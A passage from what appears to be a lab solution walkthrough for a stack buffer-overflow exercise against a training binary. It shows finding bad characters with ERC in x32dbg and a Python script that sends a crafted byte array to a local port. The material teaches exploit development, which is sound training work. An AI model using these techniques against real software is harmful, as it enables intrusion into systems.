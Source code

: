 ```python
    s.close()

badCharacters()
```

![[HTB Solutions/Others/z. images/454b8ac5491d78b509b759f20fa7e7aa_MD5.jpg]]

Within `x32dbg`, students need to click the `Reset` button so that it closes the crashed `win32bof` binary and run it again. Subsequently, students need to run the Python script, to then compare the input in memory to all characters using `ERC`. First, students need to copy the address of `ESP`, which is `00EDFB48`:

![[HTB Solutions/Others/z. images/23be684880846d64261d6eba75507439_MD5.jpg]]

Then, students need to use the `--compare` option of `ERC` on the `ESP` address and the location of the `.bin` file that contains all characters generated earlier (most importantly not the ones that include `0x00` nor `0x0A`, if students are using the same connection to the Windows VM without reset, the file name will be `ByteArray_3.bin` instead of `ByteArray_2.bin`):

Code: powershell

```powershell
ERC --compare 00EDFB48 C:\Users\htb-student\Desktop\ByteArray_2.bin
```

Students will notice that `D` (i.e., `0x0D`) is a bad character since it truncated the rest of the input:

![[HTB Solutions/Others/z. images/d3ff94da9995fcab16063ff1090d210d_MD5.jpg]]

Subsequently, students need to exclude the bad characters `0x00`, `0x0A`, and `0X0D` from the byte array that `ERC` generates:

Code: powershell

```powershell
ERC --bytearray -bytes 0x00,0x0A,0x0D
```

![[HTB Solutions/Others/z. images/086616f33e7142d21d17110c46577383_MD5.jpg]]

Then, students need to use the same Python script as before, however, they also need to remove `0x00`, `0x0A`, and `0x0D`:

Code: python

```python
import socket
from struct import pack

IP = "127.0.0.1"
port = 21449

def badCharacters():
    characters = bytes([0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
    0x08, 0x09, 0x0B, 0x0C, 0x0E, 0x0F,
    0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17,
    0x18, 0x19, 0x1A, 0x1B, 0x1C, 0x1D, 0x1E, 0x1F,
    0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27,
    0x28, 0x29, 0x2A, 0x2B, 0x2C, 0x2D, 0x2E, 0x2F,
    0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37,
    0x38, 0x39, 0x3A, 0x3B, 0x3C, 0x3D, 0x3E, 0x3F,
    0x40, 0x41, 0x42, 0x43, 0x44, 0x45, 0x46, 0x47,
    0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D, 0x4E, 0x4F,
    0x50, 0x51, 0x52, 0x53, 0x54, 0x55, 0x56, 0x57,
    0x58, 0x59, 0x5A, 0x5B, 0x5C, 0x5D, 0x5E, 0x5F,
    0x60, 0x61, 0x62, 0x63, 0x64, 0x65, 0x66, 0x67,
    0x68, 0x69, 0x6A, 0x6B, 0x6C, 0x6D, 0x6E, 0x6F,
```